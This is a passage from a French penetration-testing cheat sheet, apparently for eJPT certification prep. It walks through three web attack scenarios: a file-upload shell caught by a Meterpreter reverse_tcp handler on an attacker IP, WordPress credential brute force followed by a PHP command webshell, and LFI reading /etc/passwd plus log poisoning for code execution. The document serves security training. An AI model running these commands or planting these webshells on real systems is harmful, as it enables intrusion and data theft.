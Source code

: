 ## 🎯 8. Cas d'usage spécifiques eJPT

### Scénario 1: Application web avec upload
```bash
# 1. Énumération web
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -x php

# 2. Si upload trouvé
curl -F "file=@shell.php" http://target/upload.php

# 3. Handler Metasploit
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit

# 4. Accéder au shell
curl http://target/uploads/shell.php
```

### Scénario 2: WordPress avec credentials faibles
```bash
# 1. Découverte WordPress
wpscan --url http://target --enumerate u

# 2. Brute force admin
wpscan --url http://target --usernames admin --passwords passwords.txt

# 3. Si succès → Shell via plugin/theme editor
# Login → Appearance → Theme Editor → 404.php
# Ajouter: <?php system($_GET['cmd']); ?>

# 4. RCE
curl "http://target/wp-content/themes/theme/404.php?cmd=id"
```

### Scénario 3: Directory traversal + LFI
```bash
# 1. Découverte parameter
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://target/page.php?FUZZ=test

# 2. Test LFI
curl "http://target/page.php?file=../../../etc/passwd"

# 3. Si succès → Recherche logs/config
curl "http://target/page.php?file=../../../var/log/apache2/access.log"
curl "http://target/page.php?file=../../../etc/apache2/sites-enabled/000-default"

# 4. Log poisoning pour RCE
curl -A "<?php system(\$_GET['cmd']); ?>" http://target/
curl "http://target/page.php?file=../../../var/log/apache2/access.log&cmd=id"
```

---